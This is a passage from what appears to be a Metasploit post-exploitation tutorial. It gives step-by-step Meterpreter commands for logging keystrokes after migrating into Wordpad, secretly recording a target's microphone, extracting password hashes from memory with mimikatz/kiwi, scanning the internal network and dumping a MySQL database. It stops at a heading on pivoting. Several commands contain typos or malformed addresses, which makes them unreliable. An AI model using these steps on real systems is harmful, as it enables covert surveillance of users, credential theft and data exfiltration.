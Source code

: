 The process is running Wordpad, the build-in wordprocessor in Windows. Generally, Wordpad is not open unless the user is writing in it.

    meterpreter > migrate PID
    
    meterpreter > keyscan_start

When we are ready to retrieve the keystrokes, we simply use the keyscab_dump command.

    meterpreter > keyscan_dump

**Using the Target system as a listening "Bug"**

The meterpreter has a built-in command for doing "record_mic"

    meterpreter > record_mic

-d: the number of seconds to record (default=1)

-f: the .wav file

-p: automatically play the capture audio by default true

meterpreter > record_mic -d 10 -f spyaudio.wav -p true

**Mimikatz**

In same cases, the hashdump command will not work to retrieve the password hashes on the local system. In that case, we have another tool that can grap password. Mimikatz is capable of extracting and parsing information from RAM. Among the most important information, we are seeking are the password hashes on the local system. When the system boots up, it loads these hashes into RAM, and with a tool like mimikatz we can extract them.

The first step is to load kiwi. if your target is a 32-bit system you will load mimkatz.

    meterpreter > load kiwi

    meterpreter > mimikatz_command -f samdump::hashes

**Scanning the Internal Network**

To find out what other systems are on the network, the meterpreter has a post-explotation command arpscanner. Address Resolution Protocol is used to map MAC addresses to IP addresses on the LAN. This tool emulates this process to get system on the network to give up their IP and MAC address.

    meterpreter > run arp_scanner -r 192.2.2.2/24
    
    meterpreter > shell

c:\Windows\system32> mysql -u root -p

    mysql > show databases;
    
    mysql > quit

  

Now from the command we can invoke the mysqldump command that is used to create database backups and direct its output to our remote system.

mysqldump -u root -p -h 19.2.2. movie-db > backup.sql

  

**Pivoting to Control the Network**
